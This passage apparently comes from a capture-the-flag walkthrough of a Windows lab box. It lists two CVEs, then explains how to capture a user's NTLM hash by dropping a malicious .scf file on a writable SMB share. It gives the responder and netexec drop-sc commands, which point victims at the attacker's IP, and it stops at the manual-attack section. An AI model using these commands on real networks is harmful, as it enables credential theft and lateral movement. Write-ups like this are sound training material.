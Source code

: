 
#### Medium Vulnerability CVE-2025-21193: {#medium-vulnerability-cve-2025-21193}

<https://nvd.nist.gov/vuln/detail/cve-2025-21193>


#### Low Vulnerability CVE-2025-3445: {#low-vulnerability-cve-2025-3445}

<https://nvd.nist.gov/vuln/detail/CVE-2025-3445>


## 2. Lateral Movement - Pivoting to `p.agila`: {#2-dot-lateral-movement-pivoting-to-p-dot-agila}


### Capturing `p.agila` NTLM hash using a malicious `scf` file: {#capturing-p-dot-agila-ntlm-hash-using-a-malicious-scf-file}

One thing we can do is write to the share which is interesting as if we can write to the share we can place a malicious `.scf` file and have a user click or view it to then have them authenticate back to our malicious server so we can capture their NTLM hash. To do this we will use responder and netexec's built in `drop-sc` module.


#### Side Quest: What is an scf file? {#side-quest-what-is-an-scf-file}

An `.scf` (Shell Command File) is a simple Windows file type used to execute basic shell commands. It's commonly used for actions like toggling the desktop or setting folder icons, it can be abused by attackers to trigger outbound authentication attempts when a user views a directory containing a malicious `.scf`. This makes it especially handy for capturing NTLM hashes via SMB.


#### Automated Malicious `.scf` creation using Netexec: {#automated-malicious-dot-scf-creation-using-netexec}

First we setup responder to listen back for the connection.

```shell
sudo responder -v -I tun0
```

Now we use the `drop-sc` module in netexec.

```shell
netexec smb $box -u $user -p $pass -M drop-sc -o URL=\\\\10.10.14.128\\secret SHARE=IT FILENAME=secret
```

As you can see we immediatley get a connectcion back from the target.
![](/ox-hugo/2025-06-04-071413_.png)


#### Manual Malicious `scf` File Attack: {#manual-malicious-scf-file-attack}
